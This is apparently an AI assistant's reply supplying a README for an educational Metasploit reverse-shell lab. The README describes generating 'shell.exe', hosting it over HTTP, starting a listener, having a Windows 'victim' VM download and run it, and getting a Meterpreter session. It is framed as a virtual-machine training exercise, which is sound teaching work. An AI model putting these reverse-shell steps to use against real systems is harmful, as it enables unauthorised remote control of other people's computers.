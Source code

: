 Absolutely, Aarya! Here's the **exact `README.md` content** you can copy and paste directly into your GitHub repo:

---

### ✅ 📄 `README.md` (copy this)

````markdown
# Metasploit Reverse Shell Lab

This is a simple and educational reverse shell lab setup using **Metasploit**, built for safe testing in virtual machines only.

The automation is handled by a Bash script: `scripts/run_lab.sh`.

---

## 🧰 Requirements

- Kali Linux (with Metasploit Framework installed)
- Windows 10 Virtual Machine (victim)
- Both VMs connected to the same local network (e.g., NAT, Host-only)

---

## 🛠 How to Use

### 🔹 1. Clone the Repo

```bash
git clone https://github.com/<your-username>/metasploit-reverse-shell-lab.git
cd metasploit-reverse-shell-lab/scripts
````

### 🔹 2. Make the Script Executable

```bash
chmod +x run_lab.sh
```

### 🔹 3. Run the Script

```bash
./run_lab.sh <your-kali-ip> 4444
```

It will:

* Generate a payload: `shell.exe`
* Host it over HTTP on port `8000`
* Start a Metasploit listener waiting for the connection

---

## 💻 On the Windows VM (Victim)

1. Open a browser
2. Go to: `http://<kali-ip>:8000/shell.exe`
3. Download and run `shell.exe`

---

## ✅ If Successful

You’ll see a Meterpreter session in your Kali terminal:

```
[*] Meterpreter session 1 opened
meterpreter > sysinfo
meterpreter > screenshot
```

You now have full post-exploitation access inside your virtual lab.

---


## ⚠️ Legal & Ethical Notice

This project is for **educational use only** inside a virtual environment you fully control.

Do **NOT** use these techniques on real networks or systems you do not have permission to test.

---
